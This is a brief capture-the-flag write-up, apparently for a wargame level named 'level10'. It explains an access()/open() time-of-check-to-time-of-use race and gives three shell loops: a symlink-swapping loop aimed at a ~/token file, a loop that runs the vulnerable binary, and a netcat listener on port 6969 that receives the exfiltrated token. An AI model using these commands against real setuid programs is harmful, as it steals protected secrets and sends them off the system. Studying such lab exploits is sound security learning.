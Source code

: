 Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided
the programe send file to host add after send it check the permission by acces so we create a tmp file give it to acces and then we link it with token to read it
`while true; do ln -s /tmp/a /tmp/b; rm -f /tmp/b; ln -s ~/token /tmp/b; rm -f /tmp/b ; done`

launch a loop to execute file 
`while true; do ./level10 /tmp/b  ${host}; done`

Listen to 6969
` while true; do nc -l 6969; done`
